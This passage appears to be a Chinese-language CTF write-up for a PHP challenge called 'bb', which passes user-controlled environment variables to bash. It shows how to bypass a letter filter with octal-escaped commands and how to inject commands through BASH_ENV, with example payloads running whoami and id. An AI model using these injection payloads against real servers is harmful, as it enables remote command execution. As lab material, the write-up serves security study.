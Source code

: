 ![image-20220403193934056](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-4e47355efd07323ef5406dc8f4b309efba884922.png)

0x03 bb
=======

```php
<?php
    error_reporting(0);

    function bye($s, $ptn){
        if(preg_match($ptn, $s)){
            return false;
        }
        return true;
    }

    foreach($_GET["env"] as $k=>$v){
        if(bye($k, "/=/i") && bye($v, "/[a-zA-Z]/i")) {
            putenv("{$k}={$v}");
        }
    }
    system("bash -c 'imdude'");

    foreach($_GET["env"] as $k=>$v){
        if(bye($k, "/=/i")) {
            putenv("{$k}");
        }
    }
    highlight_file(__FILE__);
?>
```

```php
每一次循环，当前数组元素的键与值就都会被赋值给 $key 和 $value 变量（数字指针会逐一地移动），在进行下一次循环时，你将看到数组中的下一个键与值。

foreach ($array as $key => $value)
{
    要执行代码;
}
```

`/[a-zA-Z]/i`正则，用8进制绕，具体原理可以参考下面的文章链接，虽然我没看懂到底是为啥

`https://hack.more.systems/writeup/2017/12/30/34c3ctf-minbashmaxfun/`

构造一个whoami，`oct(ord(c))[2:]`：

`$'\167\150\157\141\155\151'`

![image-20220404085431833](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-d18b5ed2987d880b49e8b4b4dda24875341b616e.png)

p牛的环境变量注入，用的`BASH_ENV`，curl带出来

`https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html`

`BASH_ENV='$(id 1>&2)' bash -c 'echo hello'`
